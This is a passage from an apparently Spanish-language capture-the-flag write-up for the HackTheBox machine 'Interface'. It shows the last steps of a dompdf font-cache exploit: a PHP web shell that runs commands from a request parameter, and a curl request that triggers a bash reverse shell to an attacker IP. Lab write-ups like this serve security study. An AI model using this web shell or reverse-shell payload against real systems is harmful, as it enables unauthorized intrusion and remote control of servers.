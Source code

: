 ```null
echo -n 'http://10.10.16.21/test2.php' | md5sum
a6cb27becd76992a3dc0ddb7067c238a  -
```

<img src="/writeups/assets/img/Interface-htb/6.png" alt="">

Modifico el payload para poder ejecutar comandos a través de un parámetro por GET

```null
<?php system($_REQUEST['cmd']); ?>
```

Me envío una reverse shell

```null
curl -s -X GET http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/testfont_normal_bed5d2608a49b41b41378d8f3f76a512.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.16.21/443%200%3E%261%27
```
